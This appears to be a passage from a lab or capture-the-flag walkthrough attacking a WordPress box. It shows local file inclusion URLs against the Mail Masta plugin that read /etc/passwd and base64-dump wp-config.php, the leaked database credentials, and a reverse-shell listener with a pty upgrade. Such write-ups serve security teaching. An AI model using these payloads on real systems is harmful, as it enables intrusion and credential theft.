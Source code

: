 But we got 2 plugins and wordpress is famous for its plugins security policy

```bash
└──╼ $searchsploit mail masta

 Exploit                                       Title        |  Path
--------------------------------------------------------------------------------
WordPress Plugin Mail Masta 1.0 - Local File Inclusion      | php/webapps/40290.txt
WordPress Plugin Mail Masta 1.0 - Local File Inclusion (2)  | php/webapps/50226.py
WordPress Plugin Mail Masta 1.0 - SQL Injection             | php/webapps/41438.txt
--------------------------------------------------------------------------------------------
Shellcodes: No Results

└──╼ $searchsploit reflex-gallery
Exploits: No Results
Shellcodes: No Results
```
Guess what? we gonna exploit mail masta

I chose the LFI way for it is faster


```bash
http://10.10.230.184/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
LFI is usually for reading those config files for creds

```bash
http://10.10.230.184/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'H@ckme@123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

...
```

If you tried to ssh with those I am so sorry
there is more job to do as it seems
Upload a classic reverse shell in theme editor
or use a plugin...anyway you want, get a shell

```bash
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 33828
Linux elyana 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:53:26 up 24 min,  0 users,  load average: 0.00, 0.04, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$

```